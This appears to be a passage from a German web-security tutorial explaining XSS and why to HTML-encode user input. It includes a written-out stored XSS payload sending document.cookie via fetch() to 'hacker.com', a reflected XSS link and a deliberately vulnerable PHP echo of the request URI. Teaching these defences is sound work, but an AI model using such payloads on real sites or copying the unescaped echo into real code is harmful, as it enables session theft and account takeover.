 **Katastrophale Folgen 💥**

Angreifer können Login umgehen, die gesamten Datenbankdaten (Benutzerlisten, Passwort-Hashes) stehlen oder sogar die Datenbank löschen.

### 【Cross-Site-Scripting-Angriffe verhindern (XSS)】

**Warum ist das wichtig?**

Wenn Ihre Website wie ein Spiegel ist, der Benutzereingaben direkt reflektiert, können Benutzer bösartige JavaScript-Skripte in den Inhalt einbetten. Wenn andere Benutzer diesen Inhalt durchsuchen, wird das bösartige Skript in ihren Browsern ausgeführt und stiehlt ihre Informationen. HTML-Entity-Kodierung konvertiert Sonderzeichen in bösartigen Skripten (wie `<`, `>`) in harmlosen Klartext, wodurch sie nicht ausgeführt werden können.

**Hacker-Drehbuch 😈**
> Ich hinterließ einen Kommentar im Kommentarbereich Ihres Artikels: `<script>fetch('https://hacker.com/steal?cookie=' + document.cookie)</script>`. Dieser Text wurde unverändert in der Datenbank gespeichert. Jetzt führt jeder Benutzer, der diesen Kommentar liest, automatisch dieses Skript in seinem Browser aus und sendet seine Login-Cookies an meinen Server. Mit den Cookies kann ich ihre Identität vortäuschen und mich auf der Website einloggen.

**Fortgeschrittene Angriffsmethode: Wie kann Code von Benutzer A die Daten von Benutzer B stehlen?**

Viele Menschen fragen sich: "Der Angreifer hat meine Website nicht verändert, wie kann er dann die Daten anderer Benutzer stehlen?" Lassen Sie es mich mit einem vollständigen Beispiel erklären:

1. **Angreifer A erstellt einen bösartigen Link**
   ```
   https://yoursite.com/detail.php?id=1<script>steal()</script>
   ```

2. **Angreifer täuscht Opfer B durch Social Engineering**
   - E-Mail: "Schauen Sie sich die fantastischen Arbeiten dieses Fotografen an!"
   - Social Media-Posts, Forumkommentare usw.

3. **Was passiert, wenn Opfer B auf den Link klickt?**
   ```php
   // Ihr Code (verwundbar)
   <meta property="og:url" content="<?php echo $_SERVER['REQUEST_URI']; ?>">
   
   // Tatsächliche Ausgabe in B's Browser
   <meta property="og:url" content="/detail.php?id=1<script>steal()</script>">
   ```

4. **Warum können sie B's Daten stehlen?**
   - B ist bereits auf Ihrer Website eingeloggt
   - Das bösartige Skript läuft unter **Ihrer Domain**, daher kann es:
     - B's Cookies (Anmeldedaten) lesen
     - Auf B's localStorage zugreifen
     - Anfragen im Namen von B stellen
     - Seiteninhalte ändern (z.B. gefälschte Anmeldeformulare)

**Einfache Analogie**
Stellen Sie sich Ihre Website als Bank vor:
- Angreifer A platziert einen "gefälschten Überweisungsschein" (bösartiges Skript) in der Banklobby
- Kunde B denkt, es sei legitim und trägt sein Passwort ein
- A erhält B's Passwort
